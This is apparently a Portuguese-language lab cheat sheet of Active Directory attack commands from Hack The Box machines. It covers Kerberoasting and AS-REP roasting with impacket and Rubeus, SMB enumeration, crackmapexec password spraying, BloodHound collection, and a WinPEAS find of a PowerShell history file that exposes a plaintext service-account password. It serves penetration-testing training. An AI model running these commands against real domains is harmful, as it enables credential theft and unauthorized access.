 
## Kerberoasting

    impacket-GetNPUsers -dc-ip 10.10.10.248 intelligence.htb/ -usersfile usernames.txt -format john -outputfile hashes
 
     ./r.exe kerberoast /domain:timelapse.htb /dc:dc01.timelapse.htb
    
# Com credencial

## Enumerar shares

    smbclient -L 10.129.245.180 -U 'balckfield.local/support' --password '#00^BlackKnight'

    enum4linux -u mhope -p '4n0therD4y@n0th3r$' 10.10.10.172
    
## Password spray com crackmapexec

    crackmapexec smb 10.10.10.248 -u usernames.txt -p 'NewIntelligenceCorpUser9876'
    
## Bloodhound

    bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172
    
## Hashes

    impacket-GetNPUsers -request -format john -outputfile hashes.txt -dc-ip 10.10.10.103 'HTB.LOCAL/amanda:Ashare1972'
    
     ./r.exe kerberoast /domain:timelapse.htb /dc:dc01.timelapse.htb
    
## WinPEAS

Esse ponto aqui é interessante, poorque geralmente em domínio pode ser que as pessoas deixem salvo o as credenciais em algum arquivo, um histórico de powershell ou algo assim. Vide exemplo disso no timelapse:

    ÉÍÍÍÍÍÍÍÍÍÍ¹ Found History Files
    File: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```
    type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit
```
